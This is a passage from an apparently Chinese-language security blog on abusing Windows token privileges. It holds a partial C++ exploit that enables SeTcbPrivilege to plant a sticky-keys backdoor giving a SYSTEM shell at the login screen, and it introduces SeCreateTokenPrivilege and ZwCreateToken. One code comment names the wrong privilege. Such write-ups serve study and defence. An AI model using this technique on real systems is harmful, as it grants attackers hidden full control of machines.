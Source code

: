 ```c++
{
	HANDLE hToken = NULL;
	
	if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &hToken))
	{
		wprintf(L"[-] OpenProcessToken Error: [%u].\n", GetLastError());
		return 0;
	}

	// Enable SeRestorePrivilege for the current process token.
	if (EnableTokenPrivilege(hToken, SE_TCB_NAME))
	{
		if (NT_SUCCESS(DoS4U(hToken)))
		{
			return 1;
		}
	}
}
```

### Let’s see it in action

直接在 John 用户的上下文中执行 SeTcbPrivilege.exe 即可设置一个粘滞键后门：

```powershell
SeTcbPrivilege.exe
```

![image-20230704165203268](https://wh0amitz.oss-cn-beijing.aliyuncs.com/img/image-20230704165203268.png)

可以看到，生成的模拟令牌中已经加入了 NT AUTHORITY\SYSTEM 账户的 SID（S-1-5-18），并且粘滞键后门设置成功。在远程桌面或用户登录屏幕中连按 5 次 Shift 键即可获取一个命令行窗口，并且为 NT AUTHORITY\SYSTEM 权限，如下图所示。

![image-20230704165546403](https://wh0amitz.oss-cn-beijing.aliyuncs.com/img/image-20230704165546403.png)

## SeCreateTokenPrivilege

在 Windows 系统中，存在一个名为 SeCreateTokenPrivilege 的特权，它在 Microsoft 官方文档中被描述为 “*Create a token object*”。它被认为是 “上帝” 权限，因为拥有该特权的任何进程能够通过 ZwCreateToken API 创建主令牌，该函数是 Windows 操作系统的 Native API，其语法如下。

```c++
NTSTATUS ZwCreateToken(
	OUT PHANDLE TokenHandle,
	IN ACCESS_MASK DesiredAccess,
	IN POBJECT_ATTRIBUTES ObjectAttributes,
	IN TOKEN_TYPE Type,
	IN PLUID AuthenticationId,
	IN PLARGE_INTEGER ExpirationTime,
	IN PTOKEN_USER User,
	IN PTOKEN_GROUPS Groups,
	IN PTOKEN_PRIVILEGES Privileges,
	IN PTOKEN_OWNER Owner,
	IN PTOKEN_PRIMARY_GROUP PrimaryGroup,
	IN PTOKEN_DEFAULT_DACL DefaultDacl,
	IN PTOKEN_SOURCE Source
);
```
